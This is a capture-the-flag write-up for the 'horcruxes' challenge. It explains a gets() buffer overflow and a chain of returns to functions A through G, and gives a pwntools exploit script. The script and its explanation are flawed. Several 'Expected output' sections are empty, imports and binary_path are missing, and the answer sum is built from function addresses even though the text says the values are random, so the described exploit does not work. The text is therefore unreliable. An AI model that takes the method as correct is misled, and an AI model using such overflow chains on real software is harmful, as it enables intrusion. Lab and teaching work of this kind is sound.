

---

# **Challenge: Horcruxes**

## **Challenge Overview**
We are given a binary named `horcruxes`, and our goal is to retrieve the flag by exploiting the binary through **Return-Oriented Programming (ROP)**.

### **Initial Observations**
Upon running the binary, it presents the following menu:

```
Select menu :
```

Writing something prompts for input:

```
How much exp did you get?
```

From analyzing the disassembled binary, the function **`ropme`** handles this input. Our main observations:

1. **Vulnerable Input Handling:**
   - The function uses `gets()`, which is vulnerable to **buffer overflow**, allowing us to overwrite the return address.
  
2. **Initialization of Horcruxes:**
   - The function `init_ABCDEFG()` initializes seven functions randomly, named `A, B, C, D, E, F, G`, and stores their values.
 - **Expected output:**  


3. **ROP Attack Hints:**
   - The function name `ropme` suggests that the challenge requires using **Return-Oriented Programming (ROP)** to redirect execution.

---

## **Step 1: Identifying Vulnerabilities**

### **Analyzing the `ropme` function**
Disassembling the binary with `objdump` or `Ghidra`, we can confirm:

- Two `gets()` calls are present.
- The return value is compared against the sum of horcruxes.
- Buffer size is **120 bytes**, meaning anything beyond this overwrites the saved return pointer.

**Expected output:**  


---

## **Step 2: Gathering Function Addresses**

Using `objdump` to extract function addresses:

```bash
objdump -D horcruxes | grep "<A>"
```

**Expected output:**  


Similarly, find the `ropme` function:

```bash
objdump -D horcruxes | grep "<ropme>"
```

Addresses identified:

- A: `0x080485cb`
- B: `0x080485f8`
- C: `0x08048625`
- D: `0x08048652`
- E: `0x0804867f`
- F: `0x080486ac`
- G: `0x080486d9`
- Ropme: `0x08048706`

---

## **Step 3: Constructing the Payload**

We will construct a payload to:

1. Fill the buffer (`120` bytes).
2. Overwrite the return address to call functions `A` to `G`.
3. Redirect execution back to `ropme` for final input.

---

## **Step 4: Finding the Buffer Overflow Offset**

Through trial-and-error or debugging (`gdb`):

```bash
python -c 'print("A" * 120)' | ./horcruxes
```

Once buffer overflow is confirmed, proceed with constructing the payload.

---

## **Step 5: Creating the Exploit Script**

```python
# Function addresses (in little-endian format)
A = p32(0x080485cb)
B = p32(0x080485f8)
C = p32(0x08048625)
D = p32(0x08048652)
E = p32(0x0804867f)
F = p32(0x080486ac)
G = p32(0x080486d9)
ROP_ME = p32(0x08048706)

# Constructing the payload
payload = b"A" * 120  # Buffer overflow to reach EIP
payload += A + B + C + D + E + F + G  # Call functions in sequence
payload += ROP_ME  # Jump back to ropme to input the correct sum

# Start process
p = process(binary_path)

# Interact with the binary menu
p.recvuntil(b">> ")
p.sendline(b"1")  # Select play option

# Send the payload to trigger ROP
p.sendline(payload)

# Calculate the correct sum of horcrux values manually or script it
correct_sum = str((0x080485cb + 0x080485f8 + 0x08048625 +
                   0x08048652 + 0x0804867f + 0x080486ac + 0x080486d9) % (2**32))

p.sendline(correct_sum.encode())

# Get the flag output
print(p.recvall().decode())
```

---

## **Step 6: Explanation of the Exploit**

1. **Overflow the Buffer:**  
   - Fill with 120 bytes to overwrite the saved return pointer.

2. **Chained Function Calls:**  
   - Place the addresses of `A` to `G` sequentially.
   - Each function is called and adds its value to the stored sum.

3. **Return to `ropme`:**  
   - Once all functions have executed, return to `ropme` for input.

4. **Input Correct Sum:**  
   - Provide the correct sum calculated from function values.

---

## **Step 7: Running the Exploit**

1. Save the script as `exploit.py`.
2. Run the exploit:
   ```bash
   python exploit.py
   ```
3. Expected output:
   ```
   Toddler's Secure ROP Level
   >> 1
   How much exp did you get?
   Congratz!
   FLAG{...}
   ```

---

## **Key Takeaways**

1. **Understanding ROP:**
   - The challenge introduces Return-Oriented Programming by allowing us to chain function calls by overwriting the return address.

2. **Buffer Overflow Exploitation:**
   - Overflowing buffers to manipulate the return address can redirect control flow.

3. **Manual Exploit Construction:**
   - Identifying function addresses using `objdump`.
   - Calculating offsets and chaining function calls.

---

## **Possible Mitigations**

In a real-world scenario, mitigations include:

1. **Stack Canaries:** Prevent buffer overflows.
2. **ASLR (Address Space Layout Randomization):** Randomizes memory addresses.
3. **Non-Executable Stack:** Prevents execution of injected code.
4. **RELRO (Relocation Read-Only):** Protects function pointers.

---
